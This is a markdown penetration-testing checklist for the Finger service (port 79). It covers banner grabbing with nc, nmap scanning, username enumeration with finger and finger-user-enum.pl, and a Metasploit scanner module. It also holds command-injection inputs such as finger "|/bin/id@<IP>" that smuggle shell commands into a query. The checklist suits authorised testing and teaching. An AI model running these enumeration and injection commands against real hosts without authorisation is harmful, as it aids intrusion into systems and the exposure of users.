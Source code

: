 # Finger Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating Finger (port 79), I realistically expect to find:

- [ ] Valid system usernames through enumeration
- [ ] Basic user information (real name, office, idle time if available)
- [ ] Possible misconfigurations allowing command injection (rare)
- [ ] Service banner revealing version or OS details
- [ ] No file access, shell, or direct privilege escalation expected

---

## ✅ Finger Pentest Checklist

- [ ] **Banner Grabbing**
  - Check for service version and responses.
    ```
    nc -vn <IP> 79
    echo "root" | nc -vn <IP> 79
    ```

- [ ] **Nmap Scan**
  - Identify service details and default scripts.
    ```
    nmap -vvv -Pn -sC -sV -p79 <IP>
    ```

- [ ] **User Enumeration**
  - Basic finger queries.
    ```
    finger @<IP>
    finger <USER>@<IP>
    finger @<Victim>
    finger admin@<Victim>
    finger user@<Victim>
    ```
  - Automated enumeration.
    ```
    finger-user-enum.pl -U users.txt -t 10.0.0.1
    finger-user-enum.pl -u root -t 10.0.0.1
    finger-user-enum.pl -U users.txt -T ips.txt
    ```

- [ ] **Check for Command Execution**
  - Attempt to inject commands if the server is misconfigured.
    ```
    finger "|/bin/id@<IP>"
    finger "|/bin/ls -a /<IP>"
    finger "|/bin/id@example.com"
    finger "|/bin/ls -a /@example.com"
    ```

---

## ✅ Metasploit Module

- **User Enumeration Scanner**
    ```
    use auxiliary/scanner/finger/finger_users
    ```

